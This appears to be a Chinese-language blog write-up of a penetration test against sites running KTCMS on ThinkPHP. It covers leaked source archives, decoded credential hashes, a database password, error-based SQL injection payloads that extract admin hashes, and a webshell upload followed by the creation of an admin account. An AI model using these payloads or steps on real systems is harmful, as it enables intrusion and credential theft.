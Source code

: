 ```yaml
---
layout: post
title: "记一次常规渗透测试笔记"
subtitle: "记一次常规渗透测试笔记"
date: 2019-08-20
author: ppbibo
category: security
finished: true
---
```

[TOC]

由黑盒转白盒的一次渗透测试



PS：拿到了三个站点,发现都是一样的程序 **RT：**

domain：【`www.abc.com`，`www.test.com`，`www.aaa.com`】



## 0x1 信息收集

```text
1. 框架： ThinkPHP V5.0.24   
# 测试了以前爆TP的命令执行漏洞失败

2. CMS：KTCMS     
# 搜索没发现与 KTCMS 相关的漏洞

3. 后台路径：/admin/login/        
# 手工测试常见弱口令无果，已知用户 admin 
```

![KTCMS1](/static/img/KTCMS1.png)

跑了一下路径发现源码泄露，路径如下：

```html
www.abc.com/abc.com.tar.gz
www.test.com/test1.tar.gz
www.aaa.com/1aaa2019.tar.gz
```

下载源码找到数据库备份文件 `/public/data/kt_cms.sql`  **RT：**

![](/static/img/KTCMS2.png)

第一次见这种加密比较懵，问了群里表哥说解密方法每两个数字前面加个 % 然后URL解码，得到明文。

```bash
%61%64%6D%69%6E  # URL解码得出 admin

%32%31%32%33%32%66%32%39%37%61%35%37%61%35%61%37%34%33%38%39%34%61%30%65%34%61%38%30%31%66%63%33	# URL解码得出MD5值：21232f297a57a5a743894a0e4a801fc3 经过CMD5解密为 admin
```

```bash
%31		# URL解码得出 1

%63%34%63%61%34%32%33%38%61%30%62%39%32%33%38%32%30%64%63%63%35%30%39%61%36%66%37%35%38%34%39%62	# URL解码得出MD5值：c4ca4238a0b923820dcc509a6f75849b 	经过CMD5解密为 1
```

得到用户账号密码：

```
account：admin 	|  pwd：admin
account：1 	|  pwd： 1
```

数据库配置文件 `config.php` ：

```php
// 数据库名
'database'        => '58_1',
// 用户名
'username'        => '58_1',
// 密码
'password'        => '4EHZAsJy7DiZFnsE',
```



## 0x2 SQL注入发现

进行后台登陆都显示密码错误（ 密码已更改 ），`BurpSuite` 爆破 `admin`用户无果，手工测试用户`1` 密码`2` 成功登陆。**RT:**

![KTCMS3](/static/img/KTCMS3.png)

权限就一个搜索框栏目的功能，手工测试发现存在注入  **RT：**

![KTCMS5](/static/img/KTCMS5.png)

页面中给出了 数据库的账号密码及SQL查询报错的详细信息,我们直接查询 `admin` 的用户密码，前面源码泄露数据中有他的`数据库结构` 信息。

直接查询`admin` 用户的密码：

```sql
-a') and (select 1 from (select count(*),concat(floor(rand(0)*2),(select pwd from kt_sys_admin limit 1))a from information_schema.tables group by a)b)#
```

返回：

```text
Duplicate entry '1ba32ca749f243590df6b520ddcc1a0ed' for key 'group_key'
```

![KTCMS4](/static/img/KTCMS4.png)

查询第二条密码：

```sql
-a') and (select 1 from (select count(*),concat(floor(rand(0)*2),(select pwd from kt_sys_admin limit 1,1))a from information_schema.tables group by a)b)#
```

返回：

```bash
Duplicate entry '1c81e728d9d4c2f636f067f89cc14862c' for key 'group_key'
```

![KTCMS6](/static/img/KTCMS6.png)



## 0x3 未授权访问&越权

![KTCMS7](/static/img/KTCMS7.png)

在 html 注释中发现多处未授权访问 **RT：**

![KTCMS8](/static/img/KTCMS8.png)



根据之前的源码发现多处未授权访问 但是并没有相应的权限进行相关操作。



## 0x4 上传GetShell

在源码中发现 `upload_file.html` 文件可以上传任意文件 **RT：**

![KTCMS9](/static/img/KTCMS9.png)

![KTCMS10](/static/img/KTCMS10.png)

成功拿到 `webshell` 登陆数据库，添加超级管理员账号 **RT：**

![KTCMS11](/static/img/KTCMS11.png)

![KTCMS12](/static/img/KTCMS12.png)



系统没法执行任何系统命令，观测为虚拟主机，另外两个站一样的思路。